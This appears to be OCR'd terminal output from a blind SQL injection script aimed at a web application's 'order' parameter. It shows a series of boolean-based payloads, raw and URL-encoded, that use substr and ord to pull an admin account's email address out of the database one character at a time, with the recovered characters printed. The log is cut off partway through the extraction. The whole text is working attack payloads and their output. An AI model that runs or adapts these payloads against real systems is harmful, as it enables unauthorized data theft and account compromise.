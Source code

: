 ```

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 9, 1))='115', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+9%2C+1%29%29%3D%27115%27%2C+1%2C+2%29
[+] Character at index 9: s

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 10, 1))='101', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+10%2C+1%29%29%3D%27101%27%2C+1%2C+2%29
[+] Character at index 10: e

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 11, 1))='99', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+11%2C+1%29%29%3D%2799%27%2C+1%2C+2%29
[+] Character at index 11: c

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 12, 1))='117', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+12%2C+1%29%29%3D%27117%27%2C+1%2C+2%29
[+] Character at index 12: u

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 13, 1))='114', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+13%2C+1%29%29%3D%27114%27%2C+1%2C+2%29
[+] Character at index 13: r

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 14, 1))='101', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+14%2C+1%29%29%3D%27101%27%2C+1%2C+2%29
[+] Character at index 14: e

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 15, 1))='95', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+15%2C+1%29%29%3D%2795%27%2C+1%2C+2%29
[+] Character at index 15: _

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 16, 1))='101', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+16%2C+1%29%29%3D%27101%27%2C+1%2C+2%29
[+] Character at index 16: e

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 17, 1))='109', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+17%2C+1%29%29%3D%27109%27%2C+1%2C+2%29
[+] Character at index 17: m

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 18, 1))='97', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+18%2C+1%29%29%3D%2797%27%2C+1%2C+2%29
[+] Character at index 18: a

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 19, 1))='105', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+19%2C+1%29%29%3D%27105%27%2C+1%2C+2%29
[+] Character at index 19: i

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 20, 1))='108', 1, 2)
[+] Payload (URL encoded): ?order=if%28id%3D%27admin%27+AND+ord%28substr%28email%2C+20%2C+1%29%29%3D%27108%27%2C+1%2C+2%29
[+] Character at index 20: l

[+] Payload: ?order=if(id='admin' AND ord(substr(email, 21, 1))='64', 1, 2)
```